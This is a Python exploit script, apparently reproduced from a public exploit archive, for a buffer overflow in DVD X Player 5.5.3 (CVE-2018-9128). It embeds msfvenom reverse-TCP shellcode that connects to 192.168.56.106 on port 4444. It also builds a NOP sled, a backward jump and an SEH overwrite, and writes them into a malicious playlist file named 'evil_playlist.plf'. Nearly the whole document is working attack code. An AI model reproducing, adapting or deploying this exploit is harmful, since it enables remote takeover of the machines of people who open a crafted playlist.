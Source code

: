 EXP
---

    #!/usr/bin/env python

    # Exploit Title: DVD X Player 5.5.3 Buffer Overflow
    # Date: 20.03.2019
    # Exploit Author: Paolo Perego - paolo@armoredcode.com
    # Vendor Homepage: http://www.dvd-x-player.com
    # Software Link: http://www.dvd-x-player.com/download/DVDXPlayerSetup-Standard.exe
    # Version: 5.5.3.8 and above
    # Tested on: Windows 7 Professional SP1 x86
    # CVE : CVE-2018-9128
    # Similiar EDB-ID: 44438 https://www.exploit-db.com/exploits/44438
    #   In Windows 7, SEH handler to be used contains a \x00 byte that it has been
    #   obtained using a restricted char. For such a reason, every jump has to be
    #   backward on the beginning of attacking shellcode.

    # msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.106 LPORT=4444 -b '\x00\x0a\x1a\x0d' -f py -v shellcode

    shellcode = ""
    shellcode += "\xb8\xb8\xfa\xed\xbb\xda\xc1\xd9\x74\x24\xf4\x5a"
    shellcode += "\x33\xc9\xb1\x52\x31\x42\x12\x03\x42\x12\x83\x7a"
    shellcode += "\xfe\x0f\x4e\x86\x17\x4d\xb1\x76\xe8\x32\x3b\x93"
    shellcode += "\xd9\x72\x5f\xd0\x4a\x43\x2b\xb4\x66\x28\x79\x2c"
    shellcode += "\xfc\x5c\x56\x43\xb5\xeb\x80\x6a\x46\x47\xf0\xed"
    shellcode += "\xc4\x9a\x25\xcd\xf5\x54\x38\x0c\x31\x88\xb1\x5c"
    shellcode += "\xea\xc6\x64\x70\x9f\x93\xb4\xfb\xd3\x32\xbd\x18"
    shellcode += "\xa3\x35\xec\x8f\xbf\x6f\x2e\x2e\x13\x04\x67\x28"
    shellcode += "\x70\x21\x31\xc3\x42\xdd\xc0\x05\x9b\x1e\x6e\x68"
    shellcode += "\x13\xed\x6e\xad\x94\x0e\x05\xc7\xe6\xb3\x1e\x1c"
    shellcode += "\x94\x6f\xaa\x86\x3e\xfb\x0c\x62\xbe\x28\xca\xe1"
    shellcode += "\xcc\x85\x98\xad\xd0\x18\x4c\xc6\xed\x91\x73\x08"
    shellcode += "\x64\xe1\x57\x8c\x2c\xb1\xf6\x95\x88\x14\x06\xc5"
    shellcode += "\x72\xc8\xa2\x8e\x9f\x1d\xdf\xcd\xf7\xd2\xd2\xed"
    shellcode += "\x07\x7d\x64\x9e\x35\x22\xde\x08\x76\xab\xf8\xcf"
    shellcode += "\x79\x86\xbd\x5f\x84\x29\xbe\x76\x43\x7d\xee\xe0"
    shellcode += "\x62\xfe\x65\xf0\x8b\x2b\x29\xa0\x23\x84\x8a\x10"
    shellcode += "\x84\x74\x63\x7a\x0b\xaa\x93\x85\xc1\xc3\x3e\x7c"
    shellcode += "\x82\x2b\x16\x46\x38\xc4\x65\xb6\xad\x48\xe3\x50"
    shellcode += "\xa7\x60\xa5\xcb\x50\x18\xec\x87\xc1\xe5\x3a\xe2"
    shellcode += "\xc2\x6e\xc9\x13\x8c\x86\xa4\x07\x79\x67\xf3\x75"
    shellcode += "\x2c\x78\x29\x11\xb2\xeb\xb6\xe1\xbd\x17\x61\xb6"
    shellcode += "\xea\xe6\x78\x52\x07\x50\xd3\x40\xda\x04\x1c\xc0"
    shellcode += "\x01\xf5\xa3\xc9\xc4\x41\x80\xd9\x10\x49\x8c\x8d"
    shellcode += "\xcc\x1c\x5a\x7b\xab\xf6\x2c\xd5\x65\xa4\xe6\xb1"
    shellcode += "\xf0\x86\x38\xc7\xfc\xc2\xce\x27\x4c\xbb\x96\x58"
    shellcode += "\x61\x2b\x1f\x21\x9f\xcb\xe0\xf8\x1b\xf5\x11\x30"
    shellcode += "\xb6\x62\x88\xa1\xfb\xee\x2b\x1c\x3f\x17\xa8\x94"
    shellcode += "\xc0\xec\xb0\xdd\xc5\xa9\x76\x0e\xb4\xa2\x12\x30"
    shellcode += "\x6b\xc2\x36"

    junk = "\x90" * (600 -len(shellcode))
    junk += shellcode

    # nasm > jmp $-400
    # 00000000  E96BFEFFFF        jmp 0xfffffe70
    backflip="\x90\x90\x90\xE9\x6B\xFE\xFF\xFF"
    junk += backflip

    # 00401838  |. 5E             POP ESI
    junk += "\xeb\xf6\x90\x90"
    junk += "\x38\x18\x40\x1a"

    file = open("evil_playlist.plf", "w")
    file.write(junk)
    file.close()
